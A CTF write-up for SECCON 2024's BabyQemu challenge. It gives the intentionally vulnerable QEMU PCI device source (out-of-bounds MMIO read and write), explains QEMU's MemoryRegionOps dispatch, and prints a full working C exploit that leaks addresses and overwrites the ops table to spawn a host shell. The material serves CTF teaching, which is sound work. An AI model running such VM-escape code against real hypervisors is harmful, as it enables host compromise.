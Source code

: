 ```yaml
---
title: "[CTF] SECCON CTF 2024 - BabyQemu - Write Up"
date: 2024-12-19 13:00:00 +0900
categories: [CTF, SECCON]
tags: [ctf, write-up]
---
```


## 0x00 Overview

The BabyQemu challenge was presented in the SECCON 2024. As you can sense from its name, this challenge is designed to teach the basics of QEMU escape exploitation.

## 0x01 Analysis
In this challenge, the source code of a QEMU MMIO device is provided. The code includes implementations of MMIO handling functions such as `mmio_read` and `mmio_write`.

<details><summary>baby.c</summary>

```c

#include "qemu/osdep.h"
#include "hw/pci/pci_device.h"
#include "hw/qdev-properties.h"
#include "qemu/module.h"
#include "sysemu/kvm.h"
#include "qom/object.h"
#include "qapi/error.h"

#include "hw/char/baby.h"

struct PCIBabyDevState {
	PCIDevice parent_obj;

	MemoryRegion mmio;
	struct PCIBabyDevReg *reg_mmio;

	uint8_t buffer[0x100];
};

OBJECT_DECLARE_SIMPLE_TYPE(PCIBabyDevState, PCI_BABY_DEV)

static uint64_t pci_babydev_mmio_read(void *opaque, hwaddr addr, unsigned size);
static void pci_babydev_mmio_write(void *opaque, hwaddr addr, uint64_t val, unsigned size);

static const MemoryRegionOps pci_babydev_mmio_ops = {
	.read       = pci_babydev_mmio_read,
	.write      = pci_babydev_mmio_write,
	.endianness = DEVICE_LITTLE_ENDIAN,
	.impl = {
		.min_access_size = 1,
		.max_access_size = 4,
	},
};

static void pci_babydev_realize(PCIDevice *pci_dev, Error **errp) {
	PCIBabyDevState *ms = PCI_BABY_DEV(pci_dev);
	uint8_t *pci_conf;

	debug_printf("called\n");
	pci_conf = pci_dev->config;
	pci_conf[PCI_INTERRUPT_PIN] = 0;

	ms->reg_mmio = g_malloc(sizeof(struct PCIBabyDevReg));

	memory_region_init_io(&ms->mmio, OBJECT(ms), &pci_babydev_mmio_ops, ms, TYPE_PCI_BABY_DEV"-mmio", sizeof(struct PCIBabyDevReg));
	pci_register_bar(pci_dev, 0, PCI_BASE_ADDRESS_SPACE_MEMORY | PCI_BASE_ADDRESS_MEM_TYPE_64, &ms->mmio);
}

static void pci_babydev_reset(PCIBabyDevState *ms) {
	debug_printf("called\n");

	bzero(ms->reg_mmio, sizeof(struct PCIBabyDevReg));
	bzero(ms->buffer, sizeof(ms->buffer));
}

static void pci_babydev_uninit(PCIDevice *pci_dev) {
	PCIBabyDevState *ms = PCI_BABY_DEV(pci_dev);

	pci_babydev_reset(ms);
	g_free(ms->reg_mmio);
}

static void qdev_pci_babydev_reset(DeviceState *s) {
	PCIBabyDevState *ms = PCI_BABY_DEV(s);

	pci_babydev_reset(ms);
}

static Property pci_babydev_properties[] = {
	DEFINE_PROP_END_OF_LIST(),
};

static void pci_babydev_class_init(ObjectClass *klass, void *data) {
	DeviceClass *dc = DEVICE_CLASS(klass);
	PCIDeviceClass *k = PCI_DEVICE_CLASS(klass);

	k->realize = pci_babydev_realize;
	k->exit = pci_babydev_uninit;
	k->vendor_id = BABY_PCI_VENDOR_ID;
	k->device_id = BABY_PCI_DEVICE_ID;
	k->revision = 0x00;
	k->class_id = PCI_CLASS_OTHERS;
	dc->desc = "SECCON CTF 2024 Challenge : Baby QEMU Escape Device";
	set_bit(DEVICE_CATEGORY_MISC, dc->categories);
	dc->reset = qdev_pci_babydev_reset;
	device_class_set_props(dc, pci_babydev_properties);
}

static const TypeInfo pci_babydev_info = {
	.name          = TYPE_PCI_BABY_DEV,
	.parent        = TYPE_PCI_DEVICE,
	.instance_size = sizeof(PCIBabyDevState),
	.class_init    = pci_babydev_class_init,
	.interfaces = (InterfaceInfo[]) {
		{ INTERFACE_CONVENTIONAL_PCI_DEVICE },
		{ },
	},
};

static void pci_babydev_register_types(void) {
	type_register_static(&pci_babydev_info);
}

type_init(pci_babydev_register_types)

static uint64_t pci_babydev_mmio_read(void *opaque, hwaddr addr, unsigned size) {
	PCIBabyDevState *ms = opaque;
	struct PCIBabyDevReg *reg = ms->reg_mmio;

	debug_printf("addr:%lx, size:%d\n", addr, size);

	switch(addr){
		case MMIO_GET_DATA:
			debug_printf("get_data (%p)\n", &ms->buffer[reg->offset]);
			return *(uint64_t*)&ms->buffer[reg->offset];	// OOB read
	}
	
	return -1;
}

static void pci_babydev_mmio_write(void *opaque, hwaddr addr, uint64_t val, unsigned size) {
	PCIBabyDevState *ms = opaque;
	struct PCIBabyDevReg *reg = ms->reg_mmio;

	debug_printf("addr:%lx, size:%d, val:%lx\n", addr, size, val);

	switch(addr){
		case MMIO_SET_OFFSET:
			reg->offset = val;
			break;
		case MMIO_SET_OFFSET+4:
			reg->offset |= val << 32;
			break;
		case MMIO_SET_DATA:
			debug_printf("set_data (%p)\n", &ms->buffer[reg->offset]);
			*(uint64_t*)&ms->buffer[reg->offset] = (val & ((1UL << size*8) - 1)) | (*(uint64_t*)&ms->buffer[reg->offset] & ~((1UL << size*8) - 1));		// OOB write
			break;
	}
}

```

</details>

This baby device uses the `PCIBabyDevState` structure as its PIC device state.
The device performs the following three operations through the MMIO-mapped region:

- `MMIO_SET_OFFSET` : Writes a value to `reg_mmio->offset`.
- `MMIO_SET_DATA` : Writes a value to `buffer[reg_mmio->offset]`.
- `MMIO_GET_DATA` : Reads a value from `buffer[reg_mmio->offset]`.

The vulnerability in this driver is caused by insufficient validation of `reg_mmio->offset`, leading to `OOB` read and write operations when accessing `buffer[reg_mmio->offset]`.

> Since `max_access_size` is specified when defining `pci_babydev_mmio_ops`, even though the return value of `pci_babydev_mmio_read` is `uint64_t`, it should be parsed as `uint32_t`. Otherwise, a sign extension will occur during the read process, causing negative values to be returned.
{: .prompt-tip }


### Interact Qemu Device

![Desktop View](/posts/20241219/lspci_output.png)_lspci output_

The header file contains the `Vendor ID` and `Device ID` of the baby device.
In the output of the lspci command, you can find the PCI address 00:04.0, which is the same as the baby device information.
Using this, you can identify the `resource0` file, which corresponds to the MMIO region allocated by `pci_baby_realize` within the PCI sysfs directory.

<details><summary>baby.h</summary>
```c
#ifndef HW_BABY_H
#define HW_BABY_H

#define TYPE_PCI_BABY_DEV "baby"

#define BABY_PCI_VENDOR_ID 0x4296
#define BABY_PCI_DEVICE_ID 0x1338

struct PCIBabyDevReg {
	off_t offset;
	uint32_t data;
};

#define MMIO_SET_OFFSET    offsetof(struct PCIBabyDevReg, offset)
#define MMIO_SET_DATA      offsetof(struct PCIBabyDevReg, data)
#define MMIO_GET_DATA      offsetof(struct PCIBabyDevReg, data)

// #define DEBUG_PCI_BABY_DEV

#ifdef  DEBUG_PCI_BABY_DEV
#define debug_printf(fmt, ...) printf("## (%3d) %-20s: " fmt, __LINE__, __func__, ## __VA_ARGS__)
#else
#define debug_printf(fmt, ...)
#endif

#endif
```
</details>

### ops overwrite exploitation

The version of QEMU used in this challenge is `v9.1.0`. In this version, MMIO memory handling is performed through `memory_region_dispatch_read` and `memory_region_dispatch_write`.
Both read and write operations first perform `memory_region_access_valid`, and then pass the `memory_region_[read or write]_accessor` function pointer to the `access_with_adjusted_size` function, which executes the read or write operation in `mr->ops`.
For MMIO memory reads, the `memory_region_dispatch_read1` function is added in between.

```c
MemTxResult memory_region_dispatch_read1(MemoryRegion *mr,
                                        hwaddr addr,
                                        uint64_t *pval,
                                        MemOp op,
                                        MemTxAttrs attrs)
{
	// [...]
    if (mr->ops->read) {
        return access_with_adjusted_size(addr, pval, size,
                                         mr->ops->impl.min_access_size,
                                         mr->ops->impl.max_access_size,
                                         memory_region_read_accessor,
                                         mr, attrs);
    }
	// [...]

}
MemTxResult memory_region_dispatch_write(MemoryRegion *mr,
										hwaddr addr,
										uint64_t data,
										MemOp op,
										MemTxAttrs attrs)
{
	// [...]
	if (mr->ops->write) {
        return access_with_adjusted_size(addr, &data, size,
                                         mr->ops->impl.min_access_size,
                                         mr->ops->impl.max_access_size,
                                         memory_region_write_accessor, mr,
                                         attrs);
    }
	// [...]
}
```

One key aspect to note is the memory_region_access_valid function, which, as the name suggests, checks the validity of the accessed memory.
This function checks and returns whether memory access is allowed when `valid.accepts` exists within the `MemoryRegionOps *ops` member variable of the `MemoryRegion` structure.
So, When creating a `fake_vtable` to overwrite `ops`, it is not just the read and write operations that can be modified, but also the `valid.accepts` at `ops+0x38`, which can be leveraged for a ROP attack.

```c
struct MemoryRegionOps {
    /* Read from the memory region. @addr is relative to @mr; @size is
     * in bytes. */
    uint64_t (*read)(void *opaque,
                     hwaddr addr,
                     unsigned size);
    /* Write to the memory region. @addr is relative to @mr; @size is
     * in bytes. */
    void (*write)(void *opaque,
                  hwaddr addr,
                  uint64_t data,
                  unsigned size);

    MemTxResult (*read_with_attrs)(void *opaque,
                                   hwaddr addr,
                                   uint64_t *data,
                                   unsigned size,
                                   MemTxAttrs attrs);
    MemTxResult (*write_with_attrs)(void *opaque,
                                    hwaddr addr,
                                    uint64_t data,
                                    unsigned size,
                                    MemTxAttrs attrs);

    enum device_endian endianness;
    /* Guest-visible constraints: */
    struct {
        /* If nonzero, specify bounds on access sizes beyond which a machine
         * check is thrown.
         */
        unsigned min_access_size;
        unsigned max_access_size;
        /* If true, unaligned accesses are supported.  Otherwise unaligned
         * accesses throw machine checks.
         */
         bool unaligned;
        /*
         * If present, and returns #false, the transaction is not accepted
         * by the device (and results in machine dependent behaviour such
         * as a machine check exception).
         */
        bool (*accepts)(void *opaque, hwaddr addr,
                        unsigned size, bool is_write,
                        MemTxAttrs attrs);
    } valid;
    /* Internal implementation constraints: */
    struct {
        /* If nonzero, specifies the minimum size implemented.  Smaller sizes
         * will be rounded upwards and a partial result will be returned.
         */
        unsigned min_access_size;
        /* If nonzero, specifies the maximum size implemented.  Larger sizes
         * will be done as a series of accesses with smaller sizes.
         */
        unsigned max_access_size;
        /* If true, unaligned accesses are supported.  Otherwise all accesses
         * are converted to (possibly multiple) naturally aligned accesses.
         */
        bool unaligned;
    } impl;
};
```

## 0x02 Exploit

### Leak Pie, Heap and Libc
```c
int64_t read_mem(void *mem, int64_t offset){
    int64_t data;

    *(uint64_t *)((void*)mem + MMIO_SET_OFFSET) = offset;
    data = *(uint32_t *)((void*)mem + MMIO_GET_DATA);

    *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset + 4;
    data += (uint64_t)*(uint32_t *)((void*)mem + MMIO_GET_DATA) << 0x20;

    return data;
}

// [...]

uint64_t ms = read_mem(mem, 0x158);
uint64_t pb = read_mem(mem, -0xc8) - 0xd1d100;

uint64_t ms_buffer = ms + 0xBF8;
uint64_t ops_addr = ms + 0xb30;

uint64_t lb = read_mem(mem, (ms+8) - ms_buffer) - 0x5ad6f0;
```

In `pci_babydev_mmio_write`, when setting `reg->offset`, there is no validation, and since it is of type `int64_t`, the offset can be calculated from the `ms_buffer` to read the value of the desired memory.
As a result, it is possible to leak memory addresses such as those of the `PIE`, `heap`, and `libc`.


```c
void write_mem(void *mem, int64_t offset, uint64_t data, int size){
    if (size == 4 && size == 8){
        return;
    }

    *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset;
    *(uint64_t *)((void *)mem + MMIO_SET_DATA) = data & ((1 << 0x20) - 1);

    if(size == 8){
        *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset + 0x4;
        *(uint64_t *)((void *)mem + MMIO_SET_DATA) = data >> 0x20;
    }
}

	// [...]

	write_mem(mem, 0x0, system, 8);
	write_mem(mem, 0x8, mmio_write, 8);
	write_mem(mem, 0x10, *(uint64_t*)binsh, 8);
	write_mem(mem, ops_addr - ms_buffer, ms_buffer, 8);
	write_mem(mem, (ops_addr+8) - ms_buffer, ms_buffer+0x10, 4);

	// [...]
```

To achieve the goal of a QEMU escape, we create a `fake_ops` and overwrite `mmio.ops` with `fake_ops` to gain a shell. The steps are as follows:

- Overwrite `mmio.ops` with the address of `fake_ops`.
    - `fake_ops` is created at the `0x0` offset of the buffer.
    - Only modify the read part of `mmio.ops` to point to `system`, while keeping the write part (since write is needed to set the `rdi` argument).
- Set `mmio.opaque` to point to the string `/bin/sh`.
    - When executing functions within `ops` like `mmio.ops->read`, `mmio.opaque` is passed as the rdi argument.
    - Therefore, we need to write the `/bin/sh` string somewhere on the heap and then modify `mmio.opaque` to point to it.

> By collecting appropriate ROP gadgets, you can modify ops->valid.accepts and craft a ROP chain to achieve the desired outcome
{: .prompt-tip }

Here is the full exploit:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/mman.h>
#include <dirent.h>
#include <sys/prctl.h>
#include <sys/uio.h>
#include <sys/io.h>
#include <sys/types.h>
#include <inttypes.h>
#include <assert.h>
#include <sys/stat.h>
#include <stddef.h>

#define MMIO_SET_OFFSET    offsetof(struct PCIBabyDevReg, offset)
#define MMIO_SET_DATA      offsetof(struct PCIBabyDevReg, data)
#define MMIO_GET_DATA      offsetof(struct PCIBabyDevReg, data)

#define BABY_PCI_VENDOR_ID 0x4296
#define BABY_PCI_DEVICE_ID 0x1338
#define PAGE_SIZE 0x1000

struct PCIBabyDevReg {
	off_t offset;
	uint32_t data;
};

int64_t read_mem(void *mem, int64_t offset){
    int64_t data;

    *(uint64_t *)((void*)mem + MMIO_SET_OFFSET) = offset;
    data = *(uint32_t *)((void*)mem + MMIO_GET_DATA);

    *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset + 4;
    data += (uint64_t)*(uint32_t *)((void*)mem + MMIO_GET_DATA) << 0x20;

    return data;
}

void write_mem(void *mem, int64_t offset, uint64_t data, int size){
    if (size == 4 && size == 8){
        return;
    }

    *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset;
    *(uint64_t *)((void *)mem + MMIO_SET_DATA) = data & ((1 << 0x20) - 1);

    if(size == 8){
        *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset + 0x4;
        *(uint64_t *)((void *)mem + MMIO_SET_DATA) = data >> 0x20;
    }
}

int main(int argc, char *argv[]) {
    int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if(fd < 0) {
        perror("open");
        exit(1);
    }

    void *mem = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0x0);

    uint64_t ms = read_mem(mem, 0x158);
    uint64_t pb = read_mem(mem, -0xc8) - 0xd1d100;

    uint64_t ms_buffer = ms + 0xBF8;
    uint64_t ops_addr = ms + 0xb30;

    uint64_t lb = read_mem(mem, (ms+8) - ms_buffer) - 0x5ad6f0;
    
    uint64_t system = pb + 0x000000000324150;   // same as lb + 0x58740
    char *binsh = "/bin/sh\x00";
    uint64_t mmio_write = pb + 0x0000000003AE1B0;

    printf("[+] ms = 0x%lx\n", ms);
    printf("[+] pie_base = 0x%lx\n", pb);
    printf("[+] libc_base = 0x%lx\n", lb);
    printf("[+] ops_addr = 0x%lx\n", ops_addr);
    fflush(stdout);

    write_mem(mem, 0x0, system, 8);
    write_mem(mem, 0x8, mmio_write, 8);
    write_mem(mem, 0x10, *(uint64_t*)binsh, 8);
    write_mem(mem, ops_addr - ms_buffer, ms_buffer, 8);
    write_mem(mem, (ops_addr+8) - ms_buffer, ms_buffer+0x10, 4);
    
    uint64_t trigger = *(uint64_t *)((void*)mem + MMIO_GET_DATA);

    munmap(mem, PAGE_SIZE);
    close(fd);

    return 0;
}
```

## Ref
[1] Elixir qemu v9.1.0, <https://elixir.bootlin.com/qemu/v9.1.0/source/system/memory.c>